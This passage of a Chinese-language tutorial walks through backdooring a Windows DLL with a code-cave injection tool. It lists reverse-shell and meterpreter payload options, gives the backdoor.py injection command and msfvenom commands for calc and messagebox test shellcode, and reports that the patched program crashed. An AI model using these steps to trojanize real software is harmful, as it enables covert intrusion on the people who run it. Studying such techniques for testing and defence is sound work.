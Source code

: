 ```
The following WinIntelPE32s are available: (use -s)
cave_miner_inline
iat_reverse_tcp_inline
iat_reverse_tcp_inline_threaded
iat_reverse_tcp_stager_threaded
iat_user_supplied_shellcode_threaded
meterpreter_reverse_https_threaded
reverse_shell_tcp_inline
reverse_tcp_stager_threaded
user_supplied_shellcode_threaded
```

这里在. text(代码段) 存在一个 396 字节大小区域.  

3. 获取可用的 payload

./backdoor.py -f ./exeTest/TestDll.dll -s

```
./backdoor.py -f ./exeTest/TestDll.dll -s user_supplied_shellcode_threaded -U msg.bin -a
```

这里我们采取最后一个选项:

user_supplied_shellcode_threaded

> 自定义 payload，payload 可通过 msf 生成

先生成测试的 shellcode:

calc 调用测试 193bytes：

msfvenom -p windows/exec CMD=calc.exe -f raw > calc.bin

msg 弹框测试 272bytes:

msfvenom -p windows/messagebox -f raw >msg.bin

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6tiahSDOzibOQ5CE2vqU0sf4vRXknRtM3HXYGjOtVQ5wf2UplOcCVI2iask0ic7RZMl7XA64vpTPaia4g/640?wx_fmt=png)

0x108+8 = 272 个字节

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6tiahSDOzibOQ5CE2vqU0sf4pdUGHDVcFA3sXYMa971NvZE16hF7oS47mrwZiccpNDS5g7fj25LStCg/640?wx_fmt=png)

不过除了 shellcode 还有跳转过程也需要字节，平衡栈等。

这里尝试注入:

```
git clone https://github.com/anhkgg/SuperDllHijack.git
```

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6tiahSDOzibOQ5CE2vqU0sf4PHV8ElQcGK6OW1rAd8zD5kZIr4fQ9ic1nkI20bIIMRBOsU4qX2iaibOSg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6tiahSDOzibOQ5CE2vqU0sf4WO6SWAOrJVUsYXH9ibWZmdviamL86STpUdMCL3t25XhibjEKWKx8MGibQw/640?wx_fmt=png)

执行很成功, 但是在替换加载的时候, 发现计算器的确弹出来了, 但是主程序却出错异常退出了。

> 这种方式就是暴力 patch 程序入口点，jmp shellcode，然后继续向下执行，很容易导致堆栈不平衡, 从而导致程序错误，所以，效果不是很好, 期待 2021.7 月发布的新版，有空我也自己去尝试优化下，学学堆栈原理，如何去正确的 patch。
